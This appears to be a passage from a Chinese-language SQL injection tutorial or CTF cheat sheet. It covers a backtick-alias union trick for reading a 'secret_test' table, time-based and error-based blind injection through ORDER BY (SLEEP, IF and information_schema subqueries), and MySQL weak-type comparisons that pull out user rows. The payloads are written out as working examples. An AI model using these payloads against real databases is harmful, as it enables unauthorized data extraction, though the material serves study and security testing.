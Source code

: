 第1条SQL语句

```
desc `secret_test` `where 0 union select *  from secret_test`
```

第2条SQL语句

```
// 这里 ` ` 是 secret_test 表的别名
select 'flag{xxx}' from secret_test` `where 0 union select *  from secret_test
```

## order by 注入

order by 后面可以加字段名，表达式和字段的位置，字段的位置需要是整数型。由于 order by 后面不可以跟union，一般利用盲注。order by 后面可以跟列名，如果不存在会报错，可以用来猜测列名。

sleep 盲注

```sql
order by name, if(1=1,name,price)
order by name, if(1=1,1,(SELECT(1)FROM(SELECT(SLEEP(2)))test)) // 正常响应时间
order by name, if(1=2,1,(SELECT(1)FROM(SELECT(SLEEP(2)))test)) // sleep 2秒
select id,name,price from book order by if(1=1,sleep(0),sleep(1));
```

利用报错

在有些情况下无法知道列名，而且也不太直观的去判断两次请求的差别，如下用IF语句为例。

```
order by IF(1=1,1,(select 1 union select 2)) 正常
order by IF(1=2,1,(select 1 union select 2)) 错误
order by IF(1=1,1,(select 1 from information_schema.tables)) 正常
# 会报错误 Subquery returns more than 1 row
order by IF(1=2,1,(select 1 from information_schema.tables)) 错误
```

## where 比较条件弱类型

字符串与0进行比较的时候会转成数字，跟PHP的弱类型相同

```
# 如果是数字开头的，则会变成前面的字符串 
'123abc' == 123
'abc' == 0
# 可以把username不以数字开头的数据取出来
select * from users WHERE username=0;

#  'abc' + 0 为 0
select 'abc' + 0;
#  'abc' + 123 为 123
select 'abc' + 123;
# 'abc' + '0' 为 0，做加法运算的时候，两边都变成数字 
select 'abc' + '0';
```
